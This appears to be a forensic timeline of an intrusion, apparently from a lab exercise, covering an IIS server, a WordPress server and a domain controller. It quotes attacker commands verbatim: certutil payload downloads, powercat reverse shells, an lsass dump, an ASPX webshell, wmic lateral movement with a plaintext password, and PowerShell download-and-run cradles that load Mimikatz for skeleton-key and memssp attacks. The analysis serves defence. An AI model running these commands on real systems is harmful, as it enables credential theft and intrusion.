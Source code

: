 # windows ISS server
* 2020/8/4 AM 08:42:33 CVE-2020-0688 (awaiting to determinate)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```
* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM```

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\```

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88```

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165```

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx```


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco```

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```


* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe```

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz```

# ubuntu wordpress web server
* 03/Aug/2020:09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131```

* 04/Aug/2020:08:49:26, start to ```sqlmap``` by ```10.20.2.227```

* 04/Aug/2020:09:16:31, tunnel (npv) start

* 04/Aug/2020:09:42:07, use tunnel scan internet

* 04/Aug/2020:09:45:56, login wordpress with admin account by ```10.20.2.165```

* 04/Aug/2020:10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell

* 04/Aug/2020:22:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean

* 04/Aug/2020:23:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell

* 04/Aug/2020:23:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell

# dc server
* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$```

* 2020/08/05:22:25:34, exec ipconfig.exe by ```TEAMT5\Administrator```